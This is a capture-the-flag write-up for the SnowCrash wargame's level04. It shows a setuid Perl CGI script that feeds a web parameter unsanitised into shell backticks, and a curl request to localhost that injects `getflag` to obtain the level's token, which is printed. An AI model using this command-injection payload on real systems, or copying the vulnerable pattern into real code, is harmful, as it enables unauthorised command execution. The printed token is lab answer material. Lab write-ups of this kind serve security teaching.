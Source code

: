  # 1st Step
List the file with `ls -l` will show us :  
`-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl`  
***Notes** : Again, the owner of the file is `flag04` so the user `level04` can execute it as `flag04`*  
  
Let's execute it to see what's appening  
```
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


level04@SnowCrash:~$
```  
Nothing happened, we should take a look at the code inside  
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```  
This program is executed from a web server hosted on local machine and reachable via the port 4747  
As we can see in the code above, it will print with `echo` the output of the command. In others terms it will print the value of the variable 'x' passed as parameter !  
-> Send a request to the script with [curl](https://curl.haxx.se/docs/manual.html) and supply it the parameter x=`getflag`  
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```  
level04 passed !